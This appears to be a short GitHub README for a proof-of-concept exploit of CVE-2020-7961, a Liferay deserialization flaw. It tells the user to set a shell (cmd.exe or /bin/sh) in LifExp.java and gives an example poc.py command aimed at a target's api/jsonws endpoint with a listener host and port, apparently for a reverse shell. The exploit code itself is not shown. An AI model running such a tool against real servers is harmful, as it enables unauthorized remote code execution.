 
## Credit goes to @mzer0one

# CVE-2020-7961-POC

All the information provided on this site are for educational purposes only. The site and authors of the repository is no way responsible for any misuse of the information.
# Liferay-Deserialize-POC
1. Edit the content of the LifExp.java file to suit your target os system (egg: for Windows -> cmd.exe, for Linux -> /bin/sh)
2. Run python poc.py -h for help

example: ```python poc.py -t https://target.com/ -u api/jsonws -l 127.0.0.1 -p your_designated_port```


